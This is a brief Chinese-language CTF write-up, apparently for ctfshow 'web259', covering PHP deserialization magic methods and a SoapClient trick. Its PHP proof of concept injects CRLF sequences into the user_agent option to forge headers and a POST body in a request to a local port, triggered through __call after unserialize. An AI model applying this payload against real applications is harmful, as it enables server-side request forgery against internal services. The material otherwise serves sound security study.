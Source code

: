 ## 常见魔术方法

```python
__wakeup() //执行unserialize()时，先会调用这个函数
__sleep() //执行serialize()时，先会调用这个函数
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当尝试将对象调用为函数时触发
```



## web259



**SoapClient**

```
SoapClient采用了HTTP作为底层通讯协议，XML作为数据传送的格式，其采用了SOAP协议(SOAP是一
种简单的基于 XML 的协议,它使应用程序通过 HTTP 来交换信息)，其次我们知道某个实例化的类，如果
去调用了一个不存在的函数，会去调用 __call 方法
```

test

```php
<?php

$post_string = "lin=cool";
$a = new SoapClient(null, array('location' => 'http://127.0.0.1:5555/path', 'user_agent' => "lin\r\nContent-Type:application/x-www-form-urlencoded\r\n" . "Content-Length: " . (string)strlen($post_string) . "\r\n\r\n" . $post_string, 'uri' => "aaa"));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->not_exists_function();

```



![image-20231213005341610](assets/image-20231213005341610.png)
